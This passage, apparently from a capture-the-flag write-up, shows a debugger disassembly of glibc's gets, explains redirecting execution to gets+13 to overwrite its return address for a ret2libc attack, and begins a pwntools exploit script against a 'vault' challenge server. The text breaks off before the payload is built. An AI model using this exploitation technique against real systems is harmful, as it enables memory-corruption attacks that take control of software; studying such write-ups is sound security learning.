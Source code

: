 Looking at `gets` it turns out it does!
```
pwndbg> disass gets
Dump of assembler code for function _IO_gets:
Address range 0x7ffff7c80520 to 0x7ffff7c80699:
   0x00007ffff7c80520 <+0>:	endbr64
   0x00007ffff7c80524 <+4>:	push   r13
   0x00007ffff7c80526 <+6>:	push   r12
   0x00007ffff7c80528 <+8>:	push   rbp
   0x00007ffff7c80529 <+9>:	push   rbx
   0x00007ffff7c8052a <+10>:	mov    rbx,rdi // MOVES RDI in RBX!!!
   0x00007ffff7c8052d <+13>:	sub    rsp,0x18
```

As `rbx` points on the stack just after `rsp`, if we jump at `gets+13` we are basically calling `gets(rbx)` and writing on the stack frame of gets. 
We can override it's return address and create a ret2libc payload. We aren't restricted by null bytes this time!

### Final expolit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("vault_patched")
libc = ELF("glibc/libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe
context.terminal = ["alacritty", "-e"]

NC_CMD = "nc 94.237.59.147 52373"
gdbscript = \
"""
breakrva 0x1843
"""

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript, aslr=False)
    else:
        r = remote(NC_CMD.split(" ")[1], int(NC_CMD.split(" ")[2]))

    return r

def add_entry(r, url: bytes, password: bytes):
    sleep(0.1)
    r.sendline(b"1")
    r.sendlineafter(b"URL: ", url)
    r.sendlineafter(b"Password: ", password)


def view_entry(r, index: int):
    sleep(0.1)
    r.sendline(b"2")
    r.sendlineafter(b"Index: ", str(index).encode("ascii"))

    r.recvuntil(b"Hostname:  ")
    hostname = r.recvline().strip()

    r.recvuntil(b"Password:    ")
```